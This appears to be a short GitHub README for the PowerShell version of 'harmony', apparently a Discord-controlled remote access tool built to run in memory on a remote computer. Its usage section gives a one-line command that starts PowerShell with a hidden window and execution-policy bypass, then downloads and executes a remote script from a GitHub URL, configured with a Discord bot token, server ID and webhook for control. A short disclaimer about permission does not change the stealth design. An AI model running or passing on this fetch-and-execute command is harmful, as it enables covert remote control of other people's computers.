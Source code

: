 PowerShell rewrite of the original Python code to allow it to run in memory, be more efficient (~20 MB EXE (Nuitka) -> ~4 KB PowerShell Script) and easier to update.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer you own or have permission to run this on, making sure to replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```
